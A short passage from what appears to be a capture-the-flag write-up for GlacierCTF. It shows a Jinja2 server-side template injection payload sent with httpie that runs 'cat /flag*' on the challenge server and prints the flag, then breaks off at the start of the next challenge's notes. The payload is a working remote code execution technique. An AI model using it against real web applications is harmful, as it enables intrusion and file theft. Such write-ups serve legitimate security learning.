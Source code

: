 Use `lipsum` method to run code

```bash
┌──(bravosec㉿fsociety)-[/media/sf_Kali/ctf/GlacierCTF]
└─$ http 'https://myfirstsite.web.glacierctf.com/{{lipsum.__globals__["os"].popen("cat /flag*").read()}}'|h2t


404 - Page Not Found

Oops! The page you're looking for at /gctf{404_fl4g_w4s_f0und} doesn't exist.
```

## Glacier Exchange


### Info

![](/assets/obsidian/160e5f93fbe24dad27a1ffc89689e229.png){:target='_blank'}

### Solve


#### Enum
